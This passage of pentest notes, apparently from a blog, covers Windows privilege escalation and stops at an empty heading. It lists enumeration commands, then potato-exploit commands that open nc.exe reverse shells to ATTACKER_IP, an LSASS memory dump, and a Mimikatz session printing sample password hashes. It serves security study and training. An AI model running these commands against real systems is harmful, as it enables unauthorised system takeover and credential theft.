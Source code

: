 ```yaml
---
title: Notes | Windows Privilege Escalation
author: BatBato
date: 2022-09-02
categories: [Notes, Privilege Escalation, Windows_PE]
tags: [Web, Privilege Escalation, Windows, PE, Administrator]
permalink: /Notes/Privilege_Escalation/Windows_PE
---
```


# Windows Privilege Escalation

As with the Linux operating system, a misconfigured Windows machine can allow an attacker to gain ```Administrator``` or ```NT AUTHORITY\SYSTEM``` rights. While the ```Administrator``` is a user on any Windows machine, ```NT AUTHORITY\SYSTEM```, often called ```SYSTEM```, is an account that has the most rights but to which you cannot log in with credentials.

> For reading purpose, I won't tell if we are using a ```CMD``` console when running a command but will display a command that uses ```Powershell``` like ```PS> COMMAND```.
{: .prompt-danger }

## Network Information Gathering

### IPconfig

As for a Linux machine, we may want to check for the network of the machine. We can print information about its internet network with the command ```ipconfig``` :
```console
ipconfig /all
```
This will allow us to know if there is more than one network interface which can be leveraged to access a computer on a sub-network.

### ARP

We can use the ```arp``` command to check for other computers on the network like this :

```console
arp -a
```

### Routing Table

The routing table can show us what routes can packages take on the network :

```console
route print
```

### Netstat

The ```netstat``` command can show us if there is any service running on the machine that may be leveraged :

```console
netstat -ano
```

### Windows Defender & AppLocker Rules

To display information about ```Windows Defender``` or the ```AppLocker``` rules we can run the followinf commands :
```console
PS > Get-MpComputerStatus
```
```console
PS > Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Basic Enumeration

It's important to have information about the computer we are attacking. Like on Linux, we can, for example, list the running processes with the ```tasklist``` command :

```console
tasklist /svc
```

### System information

We can list environment variables with the ```set``` command. With the ```systeminfo``` we can get a lot of information about the computer we are in like the host name, the OS Version, the type of processor used...

To see if a machine is up to date, we can look to its ```hotfixes``` with the following command and by checking the Microsoft website:
```console
wmic qfe
```
or
```console
PS > Get-HotFix | ft -AutoSize
```

#### Program installed

We can check for non-standard applications that may have been installed by a user or an administrator :

```console
wmic product get name
```
or
```console
PS > Get-WmiObject -Class Win32_Product |  select Name, Version
```

#### RPC

A user can connect to a machine with the RPC protocol. We can look if another user is connected on our machine with the ```query user``` command. If you want to know how to impersonate this user check [this part of my blog](https://nouman404.github.io/Notes/Footprinting/Common_Services_Enumeration_&_Attacks#rdp-session-hijacking).

### Current User Privileges

When we arrive on a machine we may want to know which user we are or what are our rights. To check our user we can use the ```whoami``` or the ```echo %USERNAME%``` command. To see which rights our user has we can run the command ```whoami /priv``` and if we are a classic user we may get this output.

```console
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

> As you can see, we have some privileges that are disabled. You can enable them all using [this script](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1)
{: .prompt-tip }

We may want to check which group we are in because we can inherit privileges from certain.

```console
whoami /groups
```

We may also want to look for other users with the ```net user``` command or the list of all groups with this ```net localgroup``` command. To get information about a certain group you can use ```net localgroup GROUP_TO_CHECK```.


## Exploit User Rights

### SeImpersonate & SeAssignPrimaryToken

Every process in Windows has a token that contains details about the account that is operating it. Since these tokens are merely memory addresses that can be brute-forced by users who are unable to access memory, they are not thought of as secure resources. The ```SeImpersonate``` privilege is required to use the token. Only administrator accounts are granted access to it, and in most circumstances, it can be taken away during system hardening.

We are going to use [JuicyPotato](https://github.com/ohpe/juicy-potato) that can be used to exploit the ```SeImpersonate``` or ```SeAssignPrimaryToken``` privileges via DCOM/NTLM reflection abuse. Start a netcat listener on your attacker machine and then launch this command :

```console
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe ATTACKER_IP ATTACKER_PORT -e cmd" -t *
```

> You may get issues if you don't put the full path of a file.
{: .prompt-tip }

> Note that we are using a ```cmd``` reverse shell but we can of course use ```powershell``` instead.
{: .prompt-info }

> If you are not running the exploit from a running process like an SQL server. You may need to add the ```-c``` flag. The add a value, depending on the machine you are on, from [here](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md). If the first value doesn't work try the second, then the third... until it works.
{: .prompt-warning }

Where [JuicyPotato](https://github.com/ohpe/juicy-potato) doen't work ```Windows Server 2019``` and ```Windows 10 build 1809``` onwards, [RoguePotato](https://github.com/antonioCoco/RoguePotato) and [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) do work.

```console
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe  ATTACKER_IP ATTACKER_PORT -e cmd"
```

or

```console
c:\tools\RoguePotato.exe -r ATTACKER_IP -e "c:\tools\nc.exe  ATTACKER_IP ATTACKER_PORT -e cmd" -l LISTENING_PORT
```

> Note that we are using a ```cmd``` reverse shell but we can of course use ```powershell``` instead.
{: .prompt-info }

### SeDebugPrivilege

Instead of adding the account to the administrators group, a user may be given the ```SeDebugPrivilege``` to run a specific program or service or help with troubleshooting. To leverage this privilege we can dump process memory. The ```Local Security Authority Subsystem Service``` (LSASS) process is a good target. We can do it with the GUI or with the command line. With the GUI, you will need to launch the ```Task Manager```, go to the ```Details``` section and find the ```lsass.exe``` process. When found, you can right click on it and select ```Create dump file```. The command for the command line is :

```console
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Now that we have the lsass dump (```lsass.dmp```), we can run [Mimikatz](https://www.kali.org/tools/mimikatz/) (you can also use the [github repo](https://github.com/ParrotSec/mimikatz)).

```console
mimikatz.exe
```

When on Mimikatz, we will try to dump password hashes :

```console
mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
<SNIP>
Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : bob
Domain            : WIN-TEST
Logon Server      : WIN-TEST
Logon Time        : 9/2/2022 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : bob
         * Domain   : WIN-TEST
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
<SNIP>
```


### SeTakeOwnershipPrivilege




